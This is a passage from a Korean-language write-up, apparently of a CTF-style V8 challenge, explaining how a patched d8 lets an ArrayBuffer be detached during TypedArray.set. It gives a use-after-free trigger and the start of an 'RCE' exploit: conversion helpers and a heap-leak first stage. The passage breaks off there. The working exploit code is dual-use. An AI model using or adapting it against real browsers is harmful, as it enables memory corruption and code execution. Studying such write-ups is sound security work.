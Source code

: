 ```diff
     default:
       break;
```

또한 d8에서 arraybuffer를 바로 detach 할 수 있도록 위 함수 내용이 추가되었습니다.

```jsx
var ab = new ArrayBuffer(0x1000);
var t1 = new Uint8Array(ab);
var t2 = new Uint8Array(0x1000);

t1.fill(1);
t2.fill(2);

t2.set(t1, { valueOf:
    function() {
        %ArrayBufferDetach(ab);
        return 0;
    }
});
```

취약점은 위 코드로 트리거할 수 있습니다. t1의 버퍼를 t2로 복사하는 과정에서 t1의 버퍼를 detach하게 되면 free된 내용의 값이 t2로 복사됩니다.

# 3. RCE : Exploit

```jsx
let convert = new ArrayBuffer(0x8);
let f64 = new Float64Array(convert);
let u32 = new Uint32Array(convert);

function d2u(v) {
    f64[0] = v;
    return u32;
}

function u2d(lo, hi) {
    u32[0] = lo;
    u32[1] = hi;
    return f64[0];
}

function hex(d) {
    let val = d2u(d);
    return ("0x" + (val[1] * 0x100000000 + val[0]).toString(16));
}

/* STAGE 1 */
var ab = new ArrayBuffer(0x1000);
var t1 = new Uint8Array(ab);
var t2 = new Uint8Array(0x1000);

t1.fill(1);
t2.fill(2);

t2.set(t1, { valueOf:
    function() {
        %ArrayBufferDetach(ab);
        return 0;
    }
});

var tmp1 = new Uint32Array(t2.buffer);
let heap = new Uint32Array(new Array(tmp1[0], tmp1[1]));
```